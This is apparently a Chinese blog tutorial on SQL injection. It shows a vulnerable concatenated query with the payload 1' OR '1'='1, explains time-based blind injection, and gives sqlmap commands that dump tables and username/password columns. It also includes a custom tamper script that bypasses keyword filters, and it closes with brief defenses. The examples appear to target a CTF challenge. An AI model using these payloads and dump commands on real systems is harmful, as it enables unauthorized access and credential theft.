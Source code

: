 ```yaml
---
title: sql注入攻击
date: 2022-09-27 18:55:35
tag:
- 信息安全
- 网络攻防
- sql
- sql注入
- sqlmap
categories: 
- 网络
- 网络安全

---
```


# WHAT: sql注入是什么
在输入的字符串之中注入SQL指令。
如果代码中是以拼接用户输入成一个sql交给数据库执行的话，就很容易被此类攻击攻破。

# HOW: sql注入如何发生
假如代码中的拼接逻辑:
```java
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```
然后用户输入:`userName = "1' OR '1'='1";`
则拼接后的结果:
```sql
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```
则sql实际逻辑发生了变化，执行了用户注入的逻辑。
攻击方不一定需要从回显中获取信息，只需要通过sleep函数即可通过时间差进行盲注。
大致攻击逻辑：
1。通过拼接sleep判断是否存在被注入点；
2。通过拼接逻辑运算+sleep判断（逻辑短路）判断某个条件是否成立；
（比如 某个表是否存在、表名的每一位字母是否正确来慢慢试探出表名）

# sqlmap工具
首先正常请求一次目标，然后将request header和payload保存到`1.txt`中，然后就可以用sqlmap来进行盲注了。

```shell script
# 1. 首先探测有哪些数据库:
sqlmap -r 1.txt --level 3 --risk 3 --dbs
# 2. 探测有哪些表:
sqlmap -r 1.txt --level 3 --risk 3 -D 上一步的db --tables
# 3. 打印指定easysql库下flag表的数据:
sqlmap -r 1.txt --level 5 --risk 3 -D easysql -T flag --dump
```
有时候会遇到目标服务器有一些简单的字符串过滤、拦截的逻辑，可以通过加tamper的方式绕过:
```shell script
sqlmap -r 1.txt  --tamper "easysql.py" --level 5 --risk 3 -D easysql --tables
```
tamper有到的文件位于:
`/Library/Python/3.7/site-packages/sqlmap/tamper/`目录下，可以通过`locate space2comment.py`来寻找对应目录。

打印指定列:
```sql 
sqlmap -r 2.txt -D ctf -T user -C "username,password" --dump -D easysql --tables
```

## 自己编写tamper
主要是实现一个`def tamper(payload, **kwargs)`方法:
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2013 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

import random
import re

from lib.core.common import singleTimeWarnMessage
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    payload= payload.lower()
    payload= payload.replace('union' , 'uniunionon')
    payload= payload.replace('select' , 'selselectect')
    payload= payload.replace('where' , 'whewherere ')
    payload= payload.replace('or' , 'oorr')
    payload= payload.replace('ro' , 'rroo')
    payload= payload.replace('flag' , 'flflagag')
    payload= payload.replace("'" , '"')
    # payload= payload.replace('from' , 'frfromom')
    # payload= payload.replace('information' , 'infoorrmation')
    # payload= payload.replace('and' , 'anandd')
    # payload= payload.replace('by' , 'bbyy')
    retVal=payload
    return retVal
```

# 如何防御
1。用模版sql功能，不要自己手拼用户输入到sql;
2。校验用户输入；
3。限制用户请求频率，控制返回的时间稳定，不要让用户感知到时间差。

# 参考资料
https://copyfuture.com/blogs-details/20211205073411933f
